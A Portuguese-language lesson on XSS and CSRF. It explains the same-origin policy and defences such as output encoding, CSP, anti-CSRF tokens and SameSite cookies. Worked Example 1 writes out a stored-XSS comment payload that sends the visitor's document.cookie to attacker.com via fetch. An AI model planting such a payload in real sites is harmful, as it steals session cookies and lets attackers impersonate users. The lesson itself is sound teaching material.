

## Objetivos de Aprendizagem

- Definir a política de mesma origem e explicar por que ela é o limite de segurança fundamental que navegadores impõem entre websites.
- Rastrear um ataque de XSS armazenado concreto, da injeção à execução no navegador de uma vítima, e identificar qual dos conceitos anteriores desta disciplina (tríade CIA, injeção) ele viola.
- Rastrear um ataque CSRF concreto e explicar, precisamente, por que o comportamento de anexação automática de cookies do navegador é o que o torna possível.
- Explicar as defesas distintas para XSS (codificação de saída, Content Security Policy) versus CSRF (tokens anti-CSRF, cookies SameSite), e por que um único conserto não aborda ambos.
- Classificar o XSS como, estruturalmente, outra instância do padrão de limite dado/código já introduzido para injeção SQL.

## Contexto e Motivação

Os dois últimos conceitos cobriram vulnerabilidades de segurança de memória e de injeção em geral (injeção SQL especificamente) e as defesas clássicas contra sequestro de controle no nível de sistemas. Este conceito move-se para a camada de aplicação web especificamente, onde duas classes de vulnerabilidade distintas mas frequentemente confundidas, **cross-site scripting (XSS)** e **cross-site request forgery (CSRF)**, ambas exploram um único fato subjacente sobre como navegadores funcionam, mesmo que alcancem objetivos de atacante muito diferentes e exijam defesas muito diferentes.

Esse fato subjacente é este: um navegador anexa automaticamente os cookies de um usuário (incluindo cookies de autenticação de sessão) a toda requisição enviada a um dado site, *independentemente de qual página ou site de fato disparou essa requisição*. Esta conveniência, é por que um usuário permanece logado enquanto clica por um site sem reautenticar em toda página, é exatamente o que tanto o XSS quanto o CSRF exploram, de duas formas diferentes: o XSS faz código do atacante *rodar* no navegador da vítima, na sessão já autenticada da vítima, com acesso completo a qualquer coisa que essa sessão consiga ver; o CSRF não precisa rodar nenhum código no navegador da vítima de forma alguma, ele meramente precisa fazer o navegador da vítima *enviar uma requisição* que o atacante escolheu, confiando que o navegador anexará automaticamente o cookie de autenticação real da vítima a ela.

## Teoria Central

### A política de mesma origem: o limite de segurança fundamental do navegador

Navegadores impõem a **política de mesma origem (same-origin policy)**: JavaScript rodando numa página carregada de uma origem (uma combinação específica de esquema, domínio e porta) não consegue, por padrão, ler dados de uma origem diferente, um script em `attacker.com` não consegue ler diretamente o DOM ou os cookies de uma página aberta em `bank.com` em outra aba. Este é o limite que o XSS especificamente derrota: se um atacante consegue fazer o *seu* script rodar *como se fosse* legitimamente parte da própria página de `bank.com` (injetando-o em conteúdo que o próprio `bank.com` serve), a política de mesma origem não fornece nenhuma proteção de forma alguma, porque o navegador corretamente trata esse script como pertencendo à própria origem de `bank.com`, a vulnerabilidade não é uma falha de política-de-mesma-origem, é uma falha a montante dela, em como `bank.com` tratou a entrada não confiável antes de servi-la.

### Cross-site scripting (XSS): outra instância do limite dado/código

O XSS é estruturalmente o mesmo padrão já introduzido para injeção SQL, aplicado a HTML/JavaScript em vez de SQL: uma aplicação recebe entrada não confiável (um comentário, um username, uma consulta de busca) e a inclui na saída HTML de uma página sem separar apropriadamente "dado que o usuário submeteu" de "marcação/script que o navegador vai parsear e executar". Se essa entrada contém tags `<script>` ou outro conteúdo executável, e a aplicação a insere no HTML da página *sem codificá-la*, o parser HTML do navegador não consegue distinguir "texto que a aplicação pretendeu exibir literalmente" de "uma tag de script que o atacante enfiou", exatamente a mesma confusão dado/código já vista para o SQL, só que num parser diferente.

**XSS armazenado** (a variante mais perigosa) ocorre quando a entrada maliciosa é salva do lado do servidor (num comentário, num campo de perfil) e então servida a *todo* visitante subsequente que vê esse conteúdo, transformando uma injeção bem-sucedida num ataque contra todo visitante futuro, não só a vítima original. **XSS refletido** em vez disso exige enganar uma vítima específica a clicar num link elaborado que embute o script malicioso diretamente na requisição (por exemplo, uma página de resultados de busca que ecoa a consulta de busca de volta na página sem escape).

A defesa é a análoga direta de consultas parametrizadas: a **codificação de saída (output encoding)**, converter caracteres que são significativos em HTML (`<`, `>`, `&`, aspas) nas suas representações literais inofensivas (`&lt;`, `&gt;`, etc.) antes de inserir dados não confiáveis numa página, para que o parser do navegador nunca possa confundir esse dado com marcação ou script, não importa quais caracteres ele contenha. Uma segunda defesa complementar, a **Content Security Policy (CSP)**, deixa um site declarar, via um cabeçalho HTTP, quais fontes de script têm permissão de executar de todo, mesmo se um atacante conseguir injetar uma tag `<script>`, uma CSP bem configurada consegue prevenir o navegador de executá-la se ela não vier de uma fonte explicitamente em lista de permissão.

### Cross-site request forgery (CSRF): abusando da anexação automática de cookies, sem precisar rodar código algum

O CSRF funciona de forma completamente diferente, e não exige injetar nada na página do site da vítima de forma alguma. Um atacante hospeda uma página, no seu próprio site inteiramente separado, contendo um formulário ou requisição que mira a própria API do site da vítima (digamos, o endpoint "transferir fundos" de um banco), e engana uma vítima (já logada no banco em outra aba) a visitá-la. Quando o navegador da vítima envia essa requisição ao banco, ele anexa automaticamente o cookie de sessão real da vítima para o domínio do banco, porque é simplesmente como navegadores funcionam, independentemente de qual página iniciou a requisição, e se o servidor do banco não tem como distinguir "uma requisição que o usuário genuinamente pretendeu, da própria página do banco" de "uma requisição que uma página de terceiro não relacionada disparou silenciosamente", a transferência forjada tem sucesso, autenticada como a vítima real e logada, que pode nunca sequer perceber que uma requisição foi enviada.



A defesa aqui não tem relação com a codificação de saída (o CSRF nunca envolve injetar ou executar script algum): um **token anti-CSRF**, um valor secreto e imprevisível embutido nos próprios formulários legítimos do banco, que o servidor checa na submissão, já que o formulário forjado de um atacante numa origem diferente não tem como saber ou incluir esse valor, a requisição forjada é rejeitada mesmo que o navegador ainda tenha anexado um cookie de sessão válido. Uma segunda defesa, cada vez mais padrão, é o **atributo de cookie SameSite**, que diz ao navegador para não anexar um dado cookie de forma alguma a requisições originando de um site diferente, fechando o comportamento de anexação automática de cookies do qual o CSRF depende, diretamente no nível do navegador.

## Exemplos Resolvidos

### Exemplo 1: Rastreando um ataque de XSS armazenado de ponta a ponta

```text
1. O atacante submete um comentário de blog: "Ótimo post! <script>
   fetch('https://attacker.com/steal?cookie=' + document.cookie)
   </script>"
2. A aplicação armazena este comentário VERBATIM no seu banco de dados, sem
   codificá-lo.
3. Qualquer visitante futuro carrega a página do post de blog; o servidor inclui o
   comentário armazenado diretamente no HTML da página.
4. O navegador do visitante parseia o HTML da página, encontra a tag <script>
   exatamente como se o PRÓPRIO SITE a tivesse escrito, e a executa,
   o navegador não tem como saber que este script veio do comentário de um
   atacante em vez dos próprios desenvolvedores do site.
5. O script roda com acesso COMPLETO à própria sessão daquele visitante no
   site legítimo (a política de mesma origem não protege contra
   isto, o script ESTÁ rodando na própria origem daquele site) e envia
   o próprio cookie de sessão do visitante ao servidor do atacante.
6. O atacante agora tem um cookie de sessão válido para todo visitante que viu
   o comentário, e consegue personificar qualquer um deles sem precisar da sua
   senha de forma alguma.
```

### Exemplo 2: Por que a codificação de saída teria parado o Exemplo 1

```text
Se o passo 2 tivesse codificado o comentário armazenado antes de incluí-lo no
HTML da página:

  "Ótimo post! &lt;script&gt;fetch('https://attacker.com/steal?
   cookie=' + document.cookie)&lt;/script&gt;"

O parser HTML do navegador vê TEXTO LITERAL (os colchetes angulares codificados
não são interpretados como delimitadores de tag), ele exibe o comentário como
texto simples, incluindo as palavras visíveis "script" e "fetch", exatamente
como o atacante as digitou, mas NUNCA executa nada, porque nenhuma
TAG <script> de fato foi jamais parseada deste texto codificado.
```

### Exemplo 3: Por que um token anti-CSRF, não a codificação de saída, é o conserto correto para o ataque de forjamento de transferência

```text
O ataque CSRF (da Teoria Central) não envolve injetar script algum
nas próprias páginas de bank.com de forma alguma, o conteúdo malicioso vive inteiramente
em attacker.com, uma origem completamente separada. A codificação de saída no
lado de bank.com não faria NADA para parar este ataque, já que as próprias páginas
de bank.com nunca foram adulteradas.

Com um token anti-CSRF:
  O formulário de transferência legítimo (servido pelo próprio bank.com) inclui:
    <input type="hidden" name="csrf_token" value="a1b2c3...(secreto,
      imprevisível, amarrado à própria sessão da vítima)">

  O formulário forjado do atacante em attacker.com NÃO TEM COMO saber este valor
  (ele é gerado do lado do servidor, por sessão, e nunca exposto a outras
  origens), então a requisição forjada ou o omite ou adivinha errado.

  O servidor de bank.com checa: o csrf_token submetido corresponde ao
  emitido para esta sessão? NÃO → requisição rejeitada, mesmo que o
  navegador ainda tenha anexado um cookie de sessão tecnicamente válido.
```

## Equívocos Comuns e Armadilhas

- **"XSS e CSRF são a mesma vulnerabilidade, ou termos intercambiáveis para 'bugs de segurança web'."** Eles exploram o mesmo comportamento subjacente do navegador (anexação automática de cookies / execução de mesma origem) de formas estruturalmente diferentes, e exigem defesas inteiramente diferentes, codificação de saída e CSP abordam o XSS; tokens anti-CSRF e cookies SameSite abordam o CSRF; aplicar só uma categoria de defesa deixa a outra classe de vulnerabilidade completamente aberta.
- **"A política de mesma origem protege contra XSS."** O XSS derrota a política de mesma origem especificamente fazendo script controlado pelo atacante rodar *como se legitimamente pertencesse* à própria origem do site da vítima, o navegador não está violando a política de mesma origem de forma alguma; ele está corretamente executando um script que ele (razoavelmente) acredita que o próprio site serviu.
- **"Escapar a entrada do usuário no lado do cliente (em JavaScript, antes de enviá-la ao servidor) é uma defesa suficiente contra XSS armazenado."** A validação do lado do cliente pode sempre ser contornada por um atacante que envia requisições diretamente (não pelo JavaScript da página legítima de forma alguma), a codificação tem de acontecer no ponto onde dados não confiáveis são inseridos na saída HTML, tipicamente do lado do servidor (ou via um sistema de template que codifica por padrão), não meramente como uma checagem de conveniência do lado do cliente.
- **"Um token CSRF precisa ser mantido secreto do usuário legítimo, como uma senha."** O token é enviado ao próprio navegador do usuário legítimo (embutido no formulário legítimo) e submetido de volta por ele, ele só precisa ser imprevisível e desconhecido por *outras origens não relacionadas*, não escondido do usuário cuja própria requisição legitimamente o inclui.
- **"Cookies SameSite tornaram tokens anti-CSRF obsoletos."** Embora atributos de cookie SameSite forneçam uma mitigação forte e cada vez mais padrão no nível do navegador, depender só dela assume que todo navegador numa população de usuários a implementa e usa por padrão corretamente, e a defesa em profundidade (o mesmo princípio do conceito anterior) favorece combinar ambas as mitigações em vez de depender de uma única camada.

## Resumo

Cross-site scripting e cross-site request forgery ambos exploram o mesmo comportamento subjacente do navegador, a anexação automática de cookies a requisições de mesma origem, mas de formas estruturalmente diferentes exigindo defesas inteiramente diferentes. O XSS é outra instância do padrão de limite dado/código já visto para injeção SQL: entrada não confiável inserida em HTML sem codificação deixa o parser de um navegador confundir dado fornecido pelo atacante com script legítimo, derrotado por codificação de saída e Content Security Policy. O CSRF não exige injeção de script alguma, ele meramente engana o navegador de uma vítima a enviar uma requisição que o atacante escolheu a um site onde a vítima já está autenticada, apoiando-se na anexação automática de cookies do navegador, e é derrotado por tokens anti-CSRF e pelo atributo de cookie SameSite. Tendo coberto vulnerabilidades e defesas nas camadas de segurança de memória, banco de dados e navegador, o próximo conceito dá um passo atrás para a camada de rede, onde firewalls fornecem um tipo de defesa mais cedo e diferente, controlando qual tráfego tem permissão de alcançar um sistema de todo, antes de qualquer vulnerabilidade de nível de aplicação sequer poder ser alcançada.

## Documentation Links

- [OWASP Top Ten — Web Application Security Risks](https://owasp.org/www-project-top-ten/): cobre cross-site scripting e classes de vulnerabilidade de aplicação web relacionadas como parte da sua classificação baseada em evidência.
- [Stanford CS155 — Computer and Network Security](https://cs155.stanford.edu/): cobre ataques web (XSS, CSRF) e o modelo de segurança de navegador exatamente neste contexto.
